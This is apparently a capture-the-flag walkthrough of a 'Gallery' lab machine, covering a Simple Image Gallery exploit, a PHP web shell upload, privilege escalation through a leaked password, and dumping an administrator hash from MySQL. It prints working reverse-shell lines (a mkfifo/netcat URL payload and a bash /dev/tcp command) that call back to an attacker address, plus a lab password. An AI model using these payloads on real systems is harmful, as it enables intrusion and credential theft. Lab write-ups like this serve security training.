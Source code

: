 1. Search exploits for simple image gallery
![[gallery5.png]]

2. Copy the exploit to the current directory
![[gallery6.png]]

3. Exploit the machine
![[gallery7.png]]
Now, if navigate to the below url then we get to see the username of the user that operate the server.

4. Now, we can upload a php reverse shell and catch it to a netcat listener
**Starting netcat listener** - 
```python
nc -lvnp 4444
```

**URL after injecting php shell code** - 
```php
http://10.10.105.111/gallery/uploads/1694663640_TagodtgwferaobabyecLetta.php?cmd=mkfifo+/tmp/f%3b+nc+10.17.47.177+443+<+/tmp/f+|+/bin/sh+>/tmp/f+2>%261%3b+rm+/tmp/f
```

5. shell stabilisation after getting a reverse shell in the target.
![[gallery8.png]]

6. After lot of other stuffs like linpeas.sh and looking inside of crontab we found a `backup_history` file inside `var` directory and there we got the credentials for user mike.
![[gallery9.png]]

bash -i >& /dev/tcp/10.17.47.177/4444 0>&1

password for mike is "b3stpassw0rdbr0xx"

## Administrator hash
1. MySQL creadential found 
![[gallery16.png]]

2. Connect to the MySQL database
```python
mysql -u username -p
```

3. Administrator hash found in the users table.
![[gallery17.png]]
